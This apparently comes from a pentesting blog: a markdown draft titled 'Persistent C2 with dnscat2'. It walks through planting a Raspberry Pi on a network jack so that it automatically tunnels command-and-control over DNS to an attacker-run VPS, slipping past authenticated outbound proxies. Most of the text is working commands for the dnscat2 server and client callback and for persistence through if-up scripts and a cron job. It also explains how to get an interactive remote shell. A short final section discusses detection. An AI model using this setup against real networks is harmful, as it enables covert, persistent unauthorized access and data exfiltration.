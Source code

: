 ```yaml
---
draft: true
author: noah
comments: false
date: 2016-12-15 17:23:00+00:00
layout: post
slug: persistent-dnscat2
title: Persistent C2 with dnscat2
categories:
- Development
- PenTesting
tags:
- pentesting
---
```


Occasionally an environment has strict outbound rules with all traffic going through an authenticated proxy. This hampers exfiltration, especially if you don't currently have valid credentials but need a foothold into an environment without phishing for instance. If we can find a live network jack in some accessible place and the switch hands out an IP address via DHCP along with DNS servers, we can more than likely obtain a foothold into the network.

Thanks to some awesome work by [iagox86](https://twitter.com/iagox86), these directions can be used to configure [dnscat2](https://github.com/iagox86/dnscat2) to automatically connect back to your server over DNS in an automated fashion, similar to a PwnPlug.

## Prerequisites

* A linux box (raspberry pi)
* A domain name
* A VPS


## Directions

### Authoritative DNS
Configure an authoritative name server on the DNS provider account. Using namecheap for instance: 

Manage Domain > Advanced DNS > Add Personal DNS Servers > `ns1 == ip.ad.dre.ss` and `ns2 == ip.ad.dre.ss`

Then, under Domain > Use Custom DNS > use `ns1.examplecom` and `ns2.example.com`

Check this is working by running on the server: `sudo nc -vv -l -u -p53` and from another machine `nslookup ns1.example.com` to verify traffic is hitting this IP. 

### Set up dnscat2 server side

Log in to your VPS, get dnscat2, and install it.

    # apt-get update
    # apt-get -y install ruby-dev git make g++
    # gem install bundler
    # git clone https://github.com/iagox86/dnscat2.git
    # cd dnscat2/server
    # bundle install

And start the server.
 
    # ruby /home/admin/dnscat2/server/dnscat2.rb --secret=verysecret ns1.example.com

### Configure the client/Raspberry Pi

#### Compile the dnscat2 client

On the Raspberry Pi or client

    $ git clone https://github.com/iagox86/dnscat2.git
    $ cd dnscat2/client/
    $ make

At this point you can run dnscat2 with the following to confirm things are working. We'll be coming back to this so no need to keep in running.
    
    $ sudo /home/rpi/dnscat2/client/dnscat --secret=verysecret --dns domain=ns1.example.com,type=TXT
    
* You can also leave out the domain and instead specify an ip: `./dnscat --dns=server=1.2.3.4,port=53` but this is a direct connection out port 53 which may be blocked. It also clearly shows dnscat2 on the wire and will likely be flagged by IDS/IPS
* You can specify various DNS record types but TXT records have been fairly stable for me in the past


#### Configure Persistance

We want our little remote computer to always be connected to us. Every time it's plugged in, dnscat2 should be calling back to our infrastructure. In addition, DNS can be flaky so we always want to ensure there's always a callback.

Make `eth0` ask for a DHCP address everytime it's plugged in

    $cat /etc/networking/interfaces
      auto eth0
      allow-hotplug eth0
      iface eth0 inet dhcp

Add an `interface up` start script

    $cat /home/rpi/start_dnscat2
      #!/bin/bash    
      echo "[+] Starting dnscat2..."
      tmux new -s dnscat -d /home/rpi/dnscat2/client/dnscat ns1.example.com
    $ln -s  /home/rpi/start_dnscat2 /etc/network/if-up.d/start_dnscat2
    $chmod +x /home/rpi/start_dnscat2
    
Configure `cron` to check every five minutes if `dnscat2` is running and start it if not.

    $cat check_and_start_dnscat2.sh 
    #!/bin/bash

    if ! $(ps aux | grep -i "[t]mux" > /dev/null); then
    	echo "[!] Starting dnscat2..."
            /home/rpi/start_dnscat2
    else
    	echo "[+] dnscat2 is running..."
    fi

    $crontab -e
    */5 * * * * /home/rpi/check_and_start_dnscat2.sh


That's it. Now whenever an interface comes up, dnscat2 will make a connection to the configured domain and check every 5 minutes if there is a connection, starting one if not.


### dnscat2 reference
dnscat2 isn't super intuitive so some operational notes for quick reference:

* Start the server under a tmux session
* Within the dnscat2 prompt, type `sessions` to see what you have available and interact with `sessions -i 1`
* Within a session type `help` to list available commands and `shell` then `session -i <window#>` for an interactive shell
* Exit the shell session by `Control-z` or `exit`

### Identifying dnscat2 on the wire

There are number of ways to identify malicious DNS traffic and [this SANS paper](https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152) details quite a few methods of identification. In addition, in this case we're specifying TXT records which aren't too common. [One paper] (http://www.caida.org/publications/papers/2007/dns_anomalies/dns_anomalies.pdf) (Table 1) puts TXT record usage around 7% of a given large sample size. [Another](http://blog.dinaburg.org/2012/11/bitsquatting-pcap-analysis-part-2-query.html) puts that usage at closer to less than 1%.

It's difficult to directly prevent DNS tunnelling but with a bit of traffic and payload analysis an attacker who's not careful is likely to be identified.


### Resources

Most of this info is from iagox86's github and Lenny Zeltser's write up on dnscat2.

* https://github.com/iagox86/dnscat2
* https://github.com/iagox86/dnscat2/blob/master/doc/authoritative_dns_setup.md
* https://zeltser.com/c2-dns-tunneling/
* https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152

